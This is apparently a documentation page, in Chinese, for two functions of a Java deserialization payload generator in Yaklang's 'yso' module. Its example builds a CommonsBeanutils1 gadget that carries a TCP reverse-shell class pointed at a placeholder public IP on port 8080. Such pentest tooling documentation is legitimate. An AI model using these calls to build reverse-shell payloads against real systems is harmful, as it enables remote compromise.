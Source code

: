 ## 94. `yso.useTcpReverseShellEvilClass`

## 功能描述

设置生成TcpReverseShell类的模板，同时设置指定的 tcpReverseShellHost 和 tcpReverseShellPort。

## 参数说明

```
func useTcpReverseShellEvilClass(host: string, port: number) => => GenClassOptionFun
```

**请求参数**

- `host` : 要设置的 tcpReverseShellHost 的host。
- `port` : 要设置的 tcpReverseShellPort 的port。

**返回类型**

- `r1` : 生成的 GenClassOptionFun 类型对象。

## 示例代码

### 基础用法

设置公网IP为host，端口号为8080

```yaklang
host = '公网IP';
yso.GetCommonsBeanutils1JavaObject(yso.useTcpReverseShellEvilClass(host, 8080));
```

## 95. `yso.useTcpReverseShellTemplate`

## 功能描述

SetClassTcpReverseShellTemplate

## 参数说明

```
func GenClassOptionFun useTcpReverseShellTemplate()
```

**请求参数**

- `无` : 无

**返回类型**

- `r1` : 生成TcpReverseShell类的模板设置函数

## 示例代码
